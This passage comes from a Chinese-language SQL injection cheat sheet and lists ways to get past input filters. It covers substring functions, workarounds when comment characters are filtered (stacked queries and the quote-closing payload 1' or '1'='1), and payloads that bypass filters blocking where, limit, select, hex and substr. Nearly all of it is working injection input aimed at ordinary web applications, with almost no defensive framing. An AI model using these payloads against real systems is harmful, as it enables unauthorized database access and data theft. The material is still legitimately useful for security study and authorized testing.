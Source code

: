 ```sql
select mid(user(),1,2);                #从第一个字符开始截取2个
等价
select mid(user() from 1 for 2);    #从第一个字符开始截取2个
```

#### 6、注释符

```sql
测试中通常需要通过注释符屏蔽后面的语句，否则容易报错，但注释符被过滤了。
例如：select * from tb1 where id=$_GET[‘id’] limit 1; //limit1是我们想要屏蔽的语句。

1.通过;结束语句，如果系统不支持堆查询注入，那么后面语句不会执行，或者执行了也能屏蔽错误。
select * from tb1 where id=1; limit 1;

2.整数型注入不受影响
select * from tb1 where id=1 or 1=1 limit 1;

3.字符型注入,传入的参数前后被加上了引号，select * from tb1 where id='$_GET['id']' limit 1; 
这时候可以传入1' or '1'='1  ，再拼接上引号后就能完整。
select * from tb1 where id='1' or '1'='1' limit 1;
```

#### 7、where

```sql
逻辑绕过过滤代码 1 && (select user from users where user_id = 1) = 'admin'
绕过方式 1 && (select user from users limit 1) = 'admin'
```

#### 8、limit

```sql
逻辑绕过过滤代码 1 && (select user from users limit 1) = 'admin'
绕过方式 1 && (select user from users group by user_id having user_id = 1) = 'admin'#user_id聚合中user_id为1的user为admin
```

#### 9、select

```sql
逻辑绕过过滤代码 1 && (select substr(group_concat(user_id),1,1) user from users ) = 1
绕过方式 1 && substr(user,1,1) = 'a'
```

#### 10、hex

```sql
逻辑绕过过滤代码 1 && substr(user,1,1) = unhex(61)
绕过方式 1 && substr(user,1,1) = lower(conv(11,10,16)) #十进制的11转化为十六进制，并小写。
```

#### 11、substr

```none
逻辑绕过过滤代码 1 && substr(user,1,1) = lower(conv(11,10,16)) 
绕过方式 1 && lpad(user(),1,1) in 'r'
```

